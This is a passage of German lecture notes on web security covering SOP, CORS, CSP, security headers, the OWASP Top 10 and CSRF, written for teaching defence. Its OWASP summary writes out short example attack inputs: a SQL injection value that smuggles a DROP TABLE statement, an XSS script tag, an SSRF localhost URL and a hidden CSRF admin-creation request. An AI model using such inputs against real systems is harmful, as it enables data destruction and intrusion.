> - **`X-Frame-Options: DENY`** oder **`SAMEORIGIN`** — verbietet das Einbetten der Seite in fremde iFrames (rückläufig gegenüber CSP).
> - Moderner: **`Content-Security-Policy: frame-ancestors 'none';`** bzw. `frame-ancestors 'self' https://www.example.org;` — `frame-ancestors` ist das modernere `X-Frame-Options`.
> - Serverseitig per **helmet** (`helmet.frameguard({ action: 'sameorigin' })`).

---

## Same-Origin-Policy (SOP)

> [!quote] Definition (Same-Origin-Policy)
> Skripte, die von einer Webseite geladen wurden, dürfen **nur auf Ressourcen und das DOM derselben Herkunft (Origin) lesend zugreifen**. Ziel: verhindern, dass `evil.com`-Code auf Seiteninhalte zugreift, die nicht von ihm stammen.

Eine **Origin** = **Protokoll + Host + Port**. Alle drei müssen exakt übereinstimmen (exact match beim Host).

> [!example] Beispiel — Origin-Vergleich für `http://www.example.com/dir/test.html`
> | Verglichene URL | Ergebnis | Grund |
> |---|---|---|
> | `http://www.example.com/dir/page.html` | **Success** | gleiches Protokoll + Host |
> | `http://www.example.com/dir2/other.html` | **Success** | gleiches Protokoll + Host |
> | `http://www.example.com:81/dir2/other.html` | **Failure** | anderer Port |
> | `https://www.example.com/dir2/other.html` | **Failure** | anderes Protokoll |
> | `http://en.example.com/dir2/other.html` | **Failure** | anderer Host |
> | `http://example.com/dir2/other.html` | **Failure** | Host (exact match nötig) |



> [!tip] Merke — Was die SOP regelt
> - **Lesen (Read) ist verboten:** Skripte von Herkunft A dürfen **niemals** Daten oder das DOM von Herkunft B auslesen.
> - **Schreiben (Write) ist erlaubt:** Skripte dürfen Links zu B setzen, Formulare dorthin absenden oder B in ein iFrame laden (sofern `X-Frame-Options`/CSP es nicht verbieten).
> - **Ausführen (Execute) ist erlaubt:** Skripte, CSS, Bilder von fremden Servern (B) dürfen auf der eigenen Seite eingebunden und ausgeführt werden.

**Weitere Aspekte:**

- **iFrames:** Bloßes **Anzeigen** einer fremden Seite im iFrame ist erlaubt (keine direkten Daten ausgelesen). Zugriff auf `window`/`document` eines Cross-Origin-iFrames ist in **beide Richtungen** unterbunden.
- **`location`** ist die einzige Ausnahme: man darf sie **setzen** (Redirect), aber nicht **lesen** (kein Info-Leak).
- **Es geht um die Antwort:** Requests (GET/POST) dürfen an andere Domänen gehen — CSRF beruht genau darauf, dass das **Lesen der Antwort nicht nötig** ist. Nur das **Auslesen der Response** ist standardmäßig blockiert. Gilt auch für **`fetch`**.
- **Cookies (Domäne):** Cookies gelten pro Domäne — Port und Subdomain-Regeln weichen von der strikten Origin-Definition ab (z.B. teilt `example.com` mit `foo.example.com` und über verschiedene Ports; `different.com` nicht).

---

## Cross-Origin Resource Sharing (CORS)

> [!quote] Definition (CORS)
> Da die SOP den Zugriff auf Inhalte anderer Domänen **strikt verbietet**, braucht man manchmal eine kontrollierte Ausnahme. Über **CORS erlaubt der API-Server dem Browser explizit**, die SOP-Barriere für eine spezifische Anfrage zu durchbrechen.

- Anwendungsfall: `meine-bank.de` (Herkunft 1) möchte Daten von der eigenen API unter `api.meine-bank.de` (Herkunft 2) laden — die SOP würde die **Antworten** blockieren.
- Der Browser teilt dem Server über den **`Origin`**-Header mit, auf welcher Website der Code gerade läuft (z.B. `Origin: https://meine-bank.de`). Der Server antwortet mit **`Access-Control-Allow-Origin`**.

**Zwei Anfragetypen:**

| Typ | Methoden / Header | Ablauf |
|---|---|---|
| **Simple Request** | GET, POST, HEAD; nur Safe-List-Header (Accept, Accept-Language, Content-Language, Content-Type mit `text/plain` / `multipart/form-data` / `application/x-www-form-urlencoded`) | Direkt gesendet; Server prüft `Origin` und antwortet mit `Access-Control-Allow-Origin` |
| **Other / Sonstige** (z.B. PUT, PATCH, DELETE, JSON, Custom-Header) | alles außerhalb der Safe-List | **Preflight** mit `OPTIONS` vorab |



> [!example] Beispiel — Preflight-Austausch
> ```
> OPTIONS /service.json
> Origin: https://javascript.info
> Access-Control-Request-Method: PATCH
> Access-Control-Request-Headers: Content-Type,API-Key
>
> 200 OK
> Access-Control-Allow-Origin: https://javascript.info
> Access-Control-Allow-Methods: PUT,PATCH,DELETE
> Access-Control-Allow-Headers: API-Key,Content-Type,If-Modified-Since,Cache-Control
> Access-Control-Max-Age: 86400
> ```
> `Access-Control-Allow-Origin` muss `*` oder genau die anfragende Origin sein. Serverseitig per **cors**-Modul:
> ```js
> app.use(cors({
>   methods: ['GET', 'POST', 'PUT', 'DELETE'],
>   exposedHeaders: ['X-Custom-Header1', 'X-Custom-Header2'],
> }));
> ```

> [!warning] Achtung
> CORS regelt **nur, welche fremden Seiten die Daten (Response) der API auslesen dürfen** — es schützt **nicht** vor Clickjacking und lädt auch keinen fremden Code. Bei einem CSRF-Szenario schickt der Browser die Anfrage mit Session-Cookie zwar ab, aber der Browser verweigert dem bösartigen Skript das **Lesen** der Antwort, wenn die CORS-Header sie nicht erlauben.

---

## SOP, CORS und CSP im Zusammenspiel

> [!tip] Merke — die drei Mechanismen
> - **SOP (Same-Origin-Policy):** Standard-Sicherheitsmechanismus des Browsers. Verbietet standardmäßig das **Lesen** von Daten anderer Ursprünge.
> - **CORS (Cross-Origin Resource Sharing):** Die **Ausnahme** zur SOP. Ein anderer Server (typischerweise API) erlaubt dem Browser explizit, Daten an eine andere Domain (z.B. Ihre Frontend-App) herauszugeben.
> - **CSP (Content Security Policy):** Die **Inhalts-Erlaubnisliste** der Frontend-App. Verbietet dem Browser, bösartige Skripte von fremden Servern nachzuladen oder Formulardaten an Angreifer-Server zu senden.

> [!warning] Achtung — warum SOP allein nicht gegen XSS schützt
> Die SOP blockiert das **Laden von fremdem Code nicht** (Execute ist erlaubt). Deshalb ist sie **kein** Schutz gegen das Nachladen von Schadcode bei XSS. Genau hier greift **CSP**: sie verbietet dem Browser, überhaupt Code von Quellen wie `<script src="https://boeseseite.de">` nachzuladen oder Daten dorthin zu übertragen.

---

## BSI-Empfehlungen und weitere Header

Zum Schutz vor Clickjacking, XSS und anderen Angriffen SOLLTE der IT-Betrieb geeignete **HTTP-Response-Header** setzen. Mindestens:

| Header | Zweck |
|---|---|
| `Content-Security-Policy` | Ressourcen-Whitelist (XSS, Clickjacking via `frame-ancestors`) |
| `Strict-Transport-Security` (HSTS) | erzwingt HTTPS |
| `Content-Type` | korrekter MIME-Type |
| `X-Content-Type-Options: nosniff` | verhindert **MIME-Sniffing** |
| `Cache-Control: no-store, no-cache, must-revalidate` | private Daten nicht cachen (öffentliche Computer!) |

> [!info] Hinweis — MIME-Sniffing
> Ein Angreifer lädt eine Datei mit `.jpg`-Endung hoch, die faktisch HTML/JavaScript enthält. Ein Browser mit MIME-Sniffing (Chrome, wenn Content-Type unklar/fehlt) prüft die ersten Bytes, erkennt HTML/JS und führt es ggf. aus. **`X-Content-Type-Options: nosniff`** zwingt den Browser, nur den vom Server angegebenen Content-Type zu nutzen.

> [!success] Best Practice — Cookies
> Cookies SOLLTEN grundsätzlich mit **`secure`**, **`SameSite`** und **`HTTPOnly`** gesetzt werden. Kryptografische Schlüssel MÜSSEN in Datensicherungen so gespeichert werden, dass Unbefugte nicht darauf zugreifen können.

**Cache-Control** regelt, welche Daten in Browser-/Proxy-Cache kommen: hoch private Daten (Kontoauszüge) mit `no-store`; Authentifizierungsdaten mit `no-store`/`no-cache`; personenbezogene Daten mit `private` (nur der angemeldete Nutzer, nicht andere Nutzer desselben Geräts/Proxies).

**Weitere Sicherheitsprobleme** (nicht in den Top 10, aber erwähnt): Clickjacking, DoS, Insufficient Anti-automation, Malicious File Execution, Cross Frame Scripting (XFS), Cross Site Tracing, Cross Site Cooking.

---

## Bezug zu Lernzielen

Die kompakten Karteikarten finden sich unter [[web-engineering/lernziele/webeng-lernziele-12|Lernziele Vorlesung 12]].

**Was sollten Sie über die OWASP-Bedrohungsszenarien wissen?**

Sie sollten die zehn aktuellen OWASP-Bedrohungsszenarien **mit einem Beispiel** beschreiben können. In der Version 2021: (A1) **Broken Access Control** — z.B. IDOR, Buchungsnummer in der URL ändern und fremde Daten sehen; (A2) **Cryptographic Failures** — Passwörter ohne Salt, kein HTTPS; (A3) **Injection** inkl. XSS — `?id=42;DROP TABLE user` bzw. `<script>alert('XSS')</script>` im Suchfeld; (A4) **Insecure Design** — fehlerhafter "Passwort vergessen"-Workflow, fehlende Mandantentrennung; (A5) **Security Misconfiguration** — Debug-Modus in Produktion, Default-Passwort "joh316", sichtbare Stacktraces; (A6) **Vulnerable & Outdated Components** — Log4j, Heartbleed im IoT; (A7) **Identification & Authentication Failures** — Session-Fixation, Session-ID in URL; (A8) **Software & Data Integrity Failures** — SolarWinds (Malware in der Build-Chain), unsichere Deserialisierung; (A9) **Logging & Monitoring Failures** — Airline-Breach über 400.000 Kunden, £20 Mio Strafe; (A10) **SSRF** — `?url=http://127.0.0.1:8080/admin`. OWASP bewertet jedes Risiko als **Wahrscheinlichkeit (Mittel aus Ausnutzbarkeit, Verbreitung, Auffindbarkeit) × Auswirkung**.

**Was sollten Sie über Vermeidungsansätze für Web-Sicherheitsgefahren wissen?**

Die zentralen, elementaren Regeln: **Never trust the client** — alle Nutzereingaben serverseitig validieren, niemals auf clientseitige Prüfung vertrauen. Gegen **Injection**: Prepared Statements, Whitelisting bei `require`/`include`, kontextabhängiges Output-Encoding. Gegen **XSS**: Input-Validierung + Output-Encoding, `HTTPOnly`-Cookies, **CSP** (und Trusted Types/DOMPurify gegen DOM-XSS). Für **Authentifizierung**: MFA, Passwörter mit Salt und modernen Hashes (bzw. `password_hash`/BCRYPT), Session-ID-Wechsel beim Login, Session-Management des Frameworks. Allgemein empfiehlt das **BSI** restriktive HTTP-Response-Header: `Content-Security-Policy`, `Strict-Transport-Security`, `X-Content-Type-Options: nosniff` (gegen MIME-Sniffing), `Cache-Control`, sowie Cookies mit `secure`, `SameSite`, `HTTPOnly`. Übergreifendes Prinzip: **Least Privilege**, **Deny-by-Default** und **Security by Design** (OWASP SAMM).

**Was sollten Sie über Cross-Site-Request-Forgery (CSRF) wissen?**

CSRF ist die **Fälschung einer Anfrage über einen anderen (autorisierten) Benutzer**: Eine bösartige Seite bindet eine Aktion der Zielseite ein (z.B. per unsichtbarem iFrame `createAdminAccount.php?…`), und der Browser sendet die Anfrage **automatisch mit dem Session-Cookie** der Zieldomain — die Aktion läuft unter der Berechtigung des Opfers. **Vermeidung:** ein beim Login generiertes **CSRF-Token**, das allen PUT/POST/DELETE-Anfragen mitgegeben wird — am besten als HTTP-Header (`X-CSRF-Token`), schlecht im URL-Parameter. Eine fremde Seite kann das Token wegen der SOP nicht auslesen → Fehlen/Mismatch bricht den Angriff ab (Token Mismatch). **Was nicht verhindert werden kann:** Ein **XSS** in einem Tab derselben Domain umgeht den Schutz (localStorage/Cookies sind über alle Tabs geteilt, das Token kann ausgelesen werden — deshalb In-Memory-Isolierung). Auch **Clickjacking** wird durch CSRF-Tokens **nicht** verhindert, da diese dem iFrame mitgegeben werden; und alte **IoT**-Backends bleiben angreifbar. Moderne Frameworks unterbinden CSRF weitgehend.

**Was sollten Sie über die Same Origin Policy wissen?**

Die SOP ist der Standard-Sicherheitsmechanismus des Browsers: Skripte dürfen nur **lesend** auf Ressourcen und das DOM **derselben Herkunft** zugreifen. Eine **Origin = Protokoll + Host + Port** (Host als exact match). Regel: **Lesen verboten**, **Schreiben erlaubt** (Links setzen, Formulare absenden, in iFrame laden — sofern nicht durch `X-Frame-Options`/CSP verboten), **Ausführen erlaubt** (fremde Skripte/CSS/Bilder einbinden). `location` darf man setzen (Redirect), aber nicht lesen. Wichtig: **Es geht um die Antwort** — Requests dürfen abgesetzt werden (Grundlage von CSRF), nur das Auslesen der Response ist blockiert; gilt auch für `fetch`. Bei **Cookies** wird pro Domäne unterschieden, wobei Subdomain- und Port-Regeln von der strikten Origin abweichen (z.B. teilt `example.com` mit `foo.example.com`, nicht mit `different.com`).

**Was sollten Sie über CORS wissen?**

**CORS (Cross-Origin Resource Sharing)** ist die **kontrollierte Ausnahme** zur SOP: Ein Server (typischerweise eine API) erlaubt dem Browser explizit, seine Antwort für eine fremde Origin freizugeben. Der Browser sendet den **`Origin`**-Header; der Server antwortet mit **`Access-Control-Allow-Origin`** (`*` oder die konkrete Origin). Bei **Simple Requests** (GET/POST/HEAD mit Safe-List-Headern) geschieht das direkt; bei **sonstigen Anfragen** (PUT/PATCH/DELETE, JSON, Custom-Header) schickt der Browser vorab einen **Preflight** mit `OPTIONS` und fragt via `Access-Control-Request-Method`/`-Headers` um Erlaubnis — der Server antwortet mit `Access-Control-Allow-Methods`/`-Headers`/`-Max-Age`. Wichtig: CORS regelt **nur, wer die Daten der API auslesen darf**, es lädt keinen fremden Code und schützt nicht vor Clickjacking (dafür CSP/`frame-ancestors`).
